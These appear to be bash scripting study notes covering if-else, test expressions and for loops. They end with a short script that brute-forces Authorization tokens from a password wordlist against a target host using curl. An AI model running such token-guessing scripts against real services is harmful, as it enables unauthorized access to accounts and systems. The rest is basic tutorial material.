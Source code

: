 # Scripts
# Basic Commands
Refs :
* <https://www.youtube.com/watch?v=LTuuMtQR1uQ&list=PLBf0hzazHTGMJzHon4YXGscxUvsFpxrZT
>
## If-else
```bash
#!/bin/bash

echo "Enter your username : "
read NAME

if [ "$NAME" = "Eliot" ];
then
  echo "Welcome back Eliot"
else
  echo "Please register"
fi
```
output
```sh
$ ./testscript.sh 
Enter your username : 
Eliot
Welcome back Eliot
```
## Conditional Expressions
We can make use of conditional expressions in the bash scripting. In order to know the available expressions use
```sh
$ help test
test: test [expr]
    Evaluate conditional expression.
    
    Exits with a status of 0 (true) or 1 (false) depending on
    the evaluation of EXPR.
    
    -d FILE        True if file is a directory.
    -e FILE        True if file exists.
```
### Use of conditional expression in if-else
```bash
#!/bin/bash
  
if [ -e /etc/shadow ];
then
  echo "File exists"
else
  echo "Missing..."
fi
```
## for loops
```bash
#!/bin/bash

for NAME in $(cat names.txt); do
  echo "Name is : $NAME"
done
```
output
```sh
$ ./testscript.sh 
Name is : ram
Name is : shayam
Name is : sita
```

```bash
```
output
```sh
```

# Useful Scripts
## Authorization Token
Bash script to read different tokens from a file and pass them to `curl` command to find out the valid token for authorization
```bash
#!/bin/bash
while read token; do
content=$(curl -s -H 'Authorization: Token '"$token" $1)
if echo "$content" | grep -qi "unauth"; then
continue
else
echo "Found token : $token"
fi
done <$2
```
output
```sh
./brute.sh 192.186.248.3 wordlists/100-common-passwords.txt
```

